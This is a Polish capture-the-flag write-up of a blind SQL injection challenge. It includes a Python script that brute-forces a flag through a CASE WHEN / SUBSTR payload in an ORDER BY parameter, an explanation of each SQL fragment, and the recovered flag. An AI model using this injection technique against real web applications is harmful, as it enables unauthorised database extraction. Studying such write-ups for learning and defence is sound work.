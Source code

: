 ```yaml
---
Źródło: https://www.youtube.com/watch?v=WmCioU9F2_8 (John Hammond)
---
```


# Wygląd platformy

![platforma](./platform.png)

# Fragment exploita

```python
...

# po analizie kodu źródłowego
table_name = "flag_82f881e798"

leaked_data = list("CHTB{")

# &, %, $   to znaki specjalne dla SQL    
bruteforce_alphabet = string.printable.replace("&", "").replace("%", "").replace("$", "")

while True:
    for character in bruteforce_alphabet:
        # SQL jako początkowy indeks bierze 1
        position = len(leaked_data) + 1

        # wyślij requesta z payloadem i odbierz odpowiedź
        r = requests.post(
            url + "api/list",
            data ={
                "order": f"(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC "
            }
        )

        # przetwórz odpowiedź jako JSON
        j = r.json()

        # jeśli trafiłeś na dobry znak to szukaj kolejnego
        if j[0] == {'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}:
            leaked_data.append(character)
            break

        print(f"proba {''.join(leaked_data) + character}")

...
```

# 1.
```sql
(SELECT SUBSTR(flag,{position},1) FROM {table_name})
```
> wybierz jeden znak z pola **flag** na pozycji **position** z tabeli **flag_82f881e798**

# 2.
```sql
CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END
CASE WHEN (...)='{character}' THEN count ELSE id END
```
> jeśli znak się zgadza sortuj według **count**, jeśli nie to według **id**

# 3.
```sql
(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC
(...) ASC  
```
> domyślnie sortuj **rosnąco (ascending)**

## Przypadek id

```sql
(CASE WHEN (1=1) THEN count ELSE id END)
```

`{'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}`

## Przypadek count

```sql
(CASE WHEN (1=2) THEN count ELSE id END)
```

`{'id': 1, 'emoji': '👽', 'name': 'alien', 'count': 13}`

# Wynik
```
...
Hit: CHTB{order_me_this_juicy_
Hit: CHTB{order_me_this_juicy_i
Hit: CHTB{order_me_this_juicy_in
Hit: CHTB{order_me_this_juicy_inf
Hit: CHTB{order_me_this_juicy_info
Hit: CHTB{order_me_this_juicy_info}
```

